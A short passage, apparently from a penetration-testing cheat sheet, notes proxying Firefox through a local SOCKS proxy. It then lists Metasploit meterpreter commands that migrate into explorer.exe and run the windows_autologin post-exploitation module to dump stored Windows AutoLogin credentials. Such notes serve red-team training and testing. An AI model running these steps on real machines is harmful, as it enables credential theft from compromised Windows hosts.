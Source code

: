 Then you can also setup firefox in order to send request using the SOCKS proxy v4 at `127.0.0.1:9050`.

**Dump AutoLogin stored credentials**

Inside a meterpreter session:

* `migrate -N explorer.exe`
* `background`
* `use post/windows/gather/credentials/windows_autologin`
* `set SESSION <session-id>`
* `exploit`

